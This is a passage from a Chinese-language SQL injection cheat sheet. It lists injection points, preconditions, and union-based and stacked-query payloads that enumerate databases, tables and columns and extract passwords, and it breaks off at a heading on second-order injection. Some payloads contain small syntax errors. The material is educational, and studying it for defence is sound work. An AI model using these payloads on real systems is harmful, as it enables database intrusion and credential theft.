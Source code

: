 #### 	3、提交方式

```
GET
POST
Cookie
UserAgent
Referer
```



### 三、利用条件

#### 1、传入参数可控	

#### 2、应用过滤不当



### 四、利用方法

#### 1、联合查询

```python
# 1、查询列数
order by 2 --+
# 2、确定显位
union select 1,2 --+
# 3、查询版本号
union select 1,version() --+
# 4、查询用户权限
union select 1,user() --+
# 5、查询库名
union select 1,database() --+
# 6、查询表名
union select 1,group(table_name) from information_schema.tables where table_schema=database() --+
# 7、查询列名
union select 1,group(column_name) from information_schema.columns where table_name='[表名]' --+
# 8、查询数据
union select 1,password from '[表名]' --+
```

#### 2、堆叠

```python
# 1、所有数据库
1';show databases;#
```

```python
# 2、所有数据表
1';show tables;#
```

#### 3、二次
